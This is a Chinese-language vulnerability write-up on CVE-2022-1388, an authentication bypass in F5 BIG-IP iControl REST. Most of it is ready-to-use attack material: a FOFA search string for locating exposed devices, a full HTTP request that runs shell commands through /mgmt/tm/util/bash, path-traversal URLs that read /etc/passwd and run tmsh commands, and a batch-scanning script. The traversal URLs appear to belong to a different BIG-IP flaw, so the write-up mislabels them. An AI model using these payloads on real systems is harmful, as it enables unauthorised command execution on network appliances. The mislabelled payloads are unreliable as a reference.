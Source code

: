 # F5 BIG-IP iControl REST身份认证绕过漏洞 CVE-2022-1388

## 漏洞描述

BIG-IP 是 F5 公司的一款应用交付服务是面向以应用为中心的世界先进技术。借助 BIG-IP 应用程序交付控制器保持应用程序正常运行。BIG-IP 本地流量管理器 (LTM) 和 BIG-IP DNS 能够处理应用程序流量并保护基础设施。未经身份验证的攻击者可以通过管理端口或自身 IP 地址对 BIG-IP 系统进行网络访问，执行任意系统命令、创建或删除文件或禁用服务。

## 漏洞影响

```
11.6.1-16.1.2
```

## FOFA

```
icon_hash="-335242539"
```

## 漏洞复现

登录页面

![](./images/202205241448502.png)

发送请求包(Host设为localhost)

```
POST /mgmt/tm/util/bash HTTP/1.1
Host: localhost
Authorization: Basic YWRtaW46
X-F5-Auth-Token: a
Connection: close, X-F5-Auth-Token
Content-Length: 39

{"command":"run","utilCmdArgs":"-c id"}
```

![](./images/202205241449854.png)

文件读取：

```
https://your-ip/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd
RCE 
```

RCE：

```
https://your-ip/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin
```

检测脚本：https://github.com/jheeree/CVE-2022-1388-checker/blob/main/CVE-2022-1388.sh

使用方法：

```
./CVE-2022-1388.sh hosts.txt
```

## 漏洞修复

建议升级至最新版本或可参考官方修复建议 Recommended Actions：https://support.f5.com/csp/article/K23605346

在受影响的版本内可执行以下步骤以缓解攻击：

- 通过自身 IP 地址阻止 iControl REST 访问。
- 通过管理界面阻止 iControl REST 访问。
- 修改 BIG-IP httpd 配置。